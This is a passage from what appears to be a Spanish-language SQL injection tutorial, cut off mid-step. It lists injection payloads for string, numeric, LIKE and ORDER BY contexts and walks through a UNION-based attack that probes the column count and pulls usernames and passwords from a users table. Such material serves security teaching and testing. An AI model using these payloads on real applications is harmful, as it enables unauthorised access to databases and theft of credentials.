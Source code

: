 **Contextos especiales:**

* Dentro de una cadena literal: `'... user input ...'` → usar `' OR '1'='1` o cerrar la comilla.
* Dentro de números: no usar comillas, por eso `1 OR 1=1`.
* Dentro de `LIKE`: usar `' OR 'a' LIKE 'a`.
* En `ORDER BY`: usar `ORDER BY 1,2,3` para detectar columnas.

---

## SQL Injection — ataques `UNION`

`UNION` permite concatenar el resultado de otra consulta SELECT a la respuesta original. Requisitos y pasos:

### Paso 1: Determinar el número de columnas

Técnica: iterar `ORDER BY n` en la consulta original o usar `UNION SELECT` con n columnas de tipo `NULL` hasta no obtener error.

**Ejemplo (procedimiento):**

* Probar: `/product?id=1 ORDER BY 1--` → OK
* `/product?id=1 ORDER BY 2--` → OK
* `/product?id=1 ORDER BY 3--` → ERROR → entonces hay 2 columnas

O con `UNION`:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

El payload que no produce error sugiere el número correcto.

### Paso 2: Encontrar columnas con tipos útiles

Si la aplicación muestra una columna en la página, inyecta una cadena en cada posición: `UNION SELECT 'a', NULL, NULL` y ver cuál aparece.

**Consejo:** usar funciones de conversión o casting si el motor lo requiere (`CAST(... AS CHAR)`).

### Paso 3: Recuperar datos

Una vez identificadas columnas visibles, reemplazar `'a'` por una subconsulta que lea de `users`:

```
' UNION SELECT username, password FROM users--
```

Si hay más columnas de las esperadas, rellena con `NULL` o con valores convertidos: `UNION SELECT username, NULL, password--`.

### Paso 4: Recuperar múltiples valores en una sola columna

Si sólo puedes inyectar una columna visible, concatenar múltiples campos en una única cadena:
